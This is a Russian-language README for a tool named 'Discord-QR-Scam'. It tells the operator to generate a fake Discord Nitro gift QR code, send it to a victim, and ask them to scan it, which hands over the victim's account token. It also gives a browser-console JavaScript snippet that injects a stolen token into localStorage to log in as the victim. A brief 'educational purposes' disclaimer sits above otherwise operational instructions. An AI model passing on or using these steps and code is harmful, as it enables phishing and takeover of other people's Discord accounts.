 # Discord-QR-Scam

## Отказ от ответственности
Автор не несет ответственности за точность, полноту или качество предоставленной информации. Используйте последующую информацию на свой страх и риск.
Используйте предоставленую информацию только в образовательных целях.

## Информрация
Python скрипт, который автоматически генерирует QR-код Nitro и получает токен пользователя Discord при сканировании. Этот инструмент демонстрирует, как люди могут обмануть других
в сканирование своего QR-кода для входа в Discord и получения доступа к своей учетной записи.

## Использование
1. Если у Вас не установлен Python, загрузите Python 3.7.6. и убедитесь, что вы выбрали опцию `Add Python 3.7.6 to PATH` во время установки.
2. Установите необходимые модули > `pip install -r requirements.txt` или дважды кликните по `install.cmd`
3. Запустите `python qr_generator.py` в командной строке или двойной клик `run.cmd`
4. Подождите, пока `discord_gift.png` будет сгенерирован. Отправьте изображение пользователю и попросите отсканировать его.
5. QR-код действует всего около 2-х минут. Убедитесь, что Вы отправляете пользователю новый QR-код который готов к сканированию.
6. Когда QR-код будет отсканирован, Вы автоматически войдете в учетную запись Discord, и получите токен Discord.

## Вход
1. Откройте ваш браузер
2. Перейдите на https://discord.com/login
3. Нажмите F12 (или Ctrl + Shift + I)
4. Выберите вкладку `Console` и вставьте нижеуказанный код
```
function login(token) {
  setInterval(() => {
    document.body.appendChild(document.createElement 'iframe').contentWindow.localStorage.token = `"${token}"`
  }, 50);
  setTimeout(() => {
    location.reload();
  }, 2500);
}
login('TOKEN');
```
5. Замените слово `TOKEN` токеном пользователя и нажмите `ENTER`

## Устранение неполадок
Убедитесь, что Ваш файл chromedriver.exe имеет ту же версию, что и текущая версия веб-браузера Chrome. Чтобы проверить текущую версию Chrome,
вставьте `chrome://settings/help` в Google Chrome.

Если хром зависает:
1. Убедитесь, что Ваш файл chromedriver.exe имеет ту же версию, что и версия веб-браузера Chrome.
2. Загрузите последнюю версию chromedriver.exe здесь: https://chromedriver.chromium.org/downloads
3. Затем замените файл chromedriver.exe в папке.
